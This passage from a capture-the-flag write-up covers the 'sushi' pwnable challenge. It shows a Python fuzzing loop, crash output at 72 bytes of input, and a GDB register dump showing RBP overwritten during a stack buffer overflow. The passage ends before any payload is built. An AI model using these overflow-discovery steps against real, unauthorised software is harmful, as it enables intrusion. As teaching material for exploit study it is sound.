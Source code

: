 Welp, that's a little interesting. An memory address and some kind of output. Being a simple level pwnable challenge, let's just quickly fuzz inputs to see if we can speedily come to a conclusion without too much disassembly. For this I use a bit of bash redirection from a python script.

```
#!/usr/bin/python  
import os  
for i in range(1,1000):  
    buf = 'A' * i  
    cmd = '/bin/sh -c "echo ' + buf + '" | ./sushi'  
    print str(i) + ":"  
    os.system(cmd)  
```

Which results in:

```
70:  
Deposit money for sushi here: 0x7fff2a5e6530  
Sorry, $0.65 is not enough.  
71:  
Deposit money for sushi here: 0x7fff34b64fc0  
Sorry, $0.65 is not enough.  
72:  
Deposit money for sushi here: 0x7ffff2602560  
Sorry, $0.65 is not enough.  
Segmentation fault  
73:  
Deposit money for sushi here: 0x7ffffeb7f050  
Sorry, $0.65 is not enough.  
Segmentation fault  
```

Nothing for the first 71 bytes but after that we have a crashing sushi program. Cool, so maybe its an overflow due to poor input validation? Sounds likely so let's check why it's crashing with GDB and a 72 byte long string:

```
root@mankrik:~/bsides# perl -e 'print "A" x 72; print "n"'  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
root@mankrik:~/bsides# gdb --quiet ./sushi  
Reading symbols from /root/bsides/sushi...(no debugging symbols found)...done.  
(gdb) r  
Starting program: /root/bsides/sushi   
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000  
Deposit money for sushi here: 0x7fffffffe250  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
Sorry, $0.65 is not enough.  
Program received signal SIGSEGV, Segmentation fault.  
0x00007ffff7a70e03 in __libc_start_main () from /lib/x86_64-linux-gnu/libc.so.6  
(gdb) i r  
rax      0x0     0  
rbx      0x0     0  
rcx      0xffffffff     4294967295  
rdx      0x7ffff7dd8de0     140737351880160  
rsi      0x1     1  
rdi      0x1     1  
rbp      0x4141414141414141     0x4141414141414141  
rsp      0x7fffffffe2a0     0x7fffffffe2a0  
r8       0x10     16  
r9       0x1     1  
r10      0x4141414141414141     4702111234474983745  
r11      0x246     582  
r12      0x4004a0     4195488  
r13      0x7fffffffe370     140737488348016  
r14      0x0     0  
r15      0x0     0  
```